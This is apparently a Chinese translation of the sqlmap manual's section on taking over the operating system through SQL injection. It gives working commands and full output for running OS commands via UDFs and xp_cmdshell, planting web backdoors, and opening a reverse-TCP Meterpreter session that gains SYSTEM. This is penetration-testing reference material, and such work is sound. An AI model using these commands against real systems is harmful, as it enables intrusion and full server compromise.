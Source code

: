 ## 接管操作系统

### 运行任意操作系统命令

选项和开关：`--os-cmd` 和 `--os-shell`

当后端 DBMS 为 MySQL，PostgreSQL 或 Microsoft SQL Server，并且当前会话用户拥有对数据库特定功能和相关架构特性的利用权限时，sqlmap 能够在**数据库所在服务器的操作系统上运行任意的命令**。

在 MySQL 和 PostgreSQL 中，sqlmap 可以上传（通过前面描述的文件上传功能）一个包含两个用户自定义函数——分别为 `sys_exec()` 和 `sys_eval()` 的共享库（二进制文件），然后在数据库中创建出两个对应函数，并调用对应函数执行特定的命令，并允许用户选择是否打印出相关命令执行的结果。在 Microsoft SQL Server 中，sqlmap 会利用 `xp_cmdshell` 存储过程：如果该存储过程被关闭了（Microsoft SQL Server 的 2005 及以上版本默认关闭），sqlmap 则会将其重新打开；如果该存储过程不存在，sqlmap 则会重新创建它。

当用户请求标准输出，sqlmap 将使用任何可用的 SQL 注入技术（盲注、带内注入、报错型注入）去获取对应结果。相反，如果无需标准输出对应结果，sqlmap 则会使用堆叠查询注入技术执行相关的命令。

这些技术的相关详情可见白皮书[通过高级 SQL 注入，对操作系统进行完全控制](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)。

针对 PostgreSQL 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
os-cmd id -v 1

[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(post
gres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file sys
tem can only be deleted manually
```

sqlmap 还支持模拟 shell 输入，你可以输入任意命令以执行。对应的选项是 `--os-shell`，并且和 `--sql-shell` 一样，具备 TAB 补全和记录历史命令的功能。

如果堆叠查询没有被 Web 应用（例如：PHP 或 ASP 且后端 DBMS 为 MySQL）识别出来，并且 DBMS 为 MySQL，假如后端 DBMS 和 Web 服务器在同一台服务器上，则仍可以通过利用 `SELECT` 语句中的 `INTO OUTFILE`，在 Web 服务器根目录中的可写目录中创建 Web 后门，从而执行命令。sqlmap 支持上述功能并允许用户提供一个逗号分隔、用于指定根目录子目录的列表，从而尝试上传 Web 文件传输器和后续的 Web 后门。sqlmap 有以下几种语言的 Web 文件传输器和后门：

* ASP
* ASP.NET
* JSP
* PHP

###  有状态带外连接：Meterpreter & friends

开关和选项：`--os-pwn`，`--os-smbrelay`，`--os-bof`，`--priv-esc`，`--msf-path` 和 `--tmp-path`

当后端 DBMS 为 MySQL，PostgreSQL 或 Microsoft SQL Server 时，并且当前会话用户拥有对数据库特定功能和架构缺陷的利用权限时，sqlmap 能够在**攻击者机器与数据库服务器之间建立起有状态带外 TCP 连接**。根据用户的选择，该连接可以是交互式命令行、Meterpreter 会话、或者图形用户界面（VNC）会话。

sqlmap 依赖 Metasploit 创建 shellcode，并实现了四种不同的技术在数据库服务器上执行它。这些技术分别是：

* 通过 sqlmap 的用户自定义函数 `sys_bineval()` 在数据库**内存中执行 Metasploit shellcode**。MySQL 和 PostgreSQL 支持该技术，通过开关 `--os-pwn` 启用。
* 通过 sqlmap 的用户自定义函数 `sys_exec()` 向 MySQL 和 PostgreSQL 上传一个 Metasploit **独立 payload 传输器**并执行，对于 Microsoft SQL Server 则是使用 `xp_cmdshell()` 函数，通过开关 `--os-pwn` 启用。
* 通过进行从数据库服务器到攻击者机器（由 Metasploit `smb_relay` 服务监听）之间的 UNC 路径请求的 **SMB 反射攻击**（[MS08-068](http://www.microsoft.com/technet/security/Bulletin/MS08-068.mspx)）来执行 Metasploit shellcode。当 sqlmap 运行于具有高权限（`uid=0`）的 Linux/Unix 上，且目标 DBMS 以 Windows 管理员身份运行时支持该技术，通过开关 `--os-smbrelay` 启用。
* 通过利用 **Microsoft SQL Server 2000 和 2005 的 `sp_replwritetovarbin` 存储过程堆缓冲区溢出**（[MS09-004](http://www.microsoft.com/technet/security/bulletin/ms09-004.mspx)）在数据库内存中执行 Metasploit shellcode。sqlmap 使用自己的 exploit，自动绕过 DEP 内存保护来触发漏洞，但它依赖 Metasploit 生成 shellcode，以便在成功利用时执行，通过开关 `--os-bof` 启用。

相关的技术详情可见于白皮书[通过高级 SQL 注入完全控制操作系统](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)和幻灯片[将控制由数据库层面拓展到操作系统](http://www.slideshare.net/inquis/expanding-the-control-over-the-operating-system-from-the-database)。

针对 MySQL 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?\
id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
> 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database und
erlying operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
> 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on 
all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
> 
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
> 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, p
lease wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|


    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD => windows/meterpreter/reverse_tcp
EXITFUNC => thread
LPORT => 60641
LHOST => 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_b
ineval', please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -> 192.168.136.129:1689) a
t Mon Apr 11 hh:mm:52 +0100 2011

meterpreter > Loading extension espia...success.
meterpreter > Loading extension incognito...success.
meterpreter > [-] The 'priv' extension has already been loaded.
meterpreter > Loading extension sniffer...success.
meterpreter > System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
Architecture    : x86
Meterpreter     : x86/win32
meterpreter > Server username: NT AUTHORITY\SYSTEM
meterpreter > ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0



Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0


meterpreter > exit

[*] Meterpreter session 1 closed.  Reason: User exit
```

默认情况下，MySQL 在 Windows 上以 `SYSTEM` 身份运行，然而 PostgreSQL 在 Windows 和 Linux 上均以低权限用户 `postgres` 运行。Microsoft SQL Server 2000 默认以 `SYSTEM` 身份运行，而 Microsoft SQL 2005 和 2008 大部分情况下以 `NETWORK SERVICE` 身份运行，有时候以 `LOCAL SERVICE` 身份运行。

使用 sqlmap 的 `--priv-esc` 开关，可以通过 Metasploit `getsystem` 命令进行**数据库进程用户提权**，该命令使用了包括 [kitrap0d](http://archives.neohapsis.com/archives/fulldisclosure/2010-01/0346.html) 在内的各种技术（[MS10-015](http://www.microsoft.com/technet/security/bulletin/ms10-015.mspx)）。
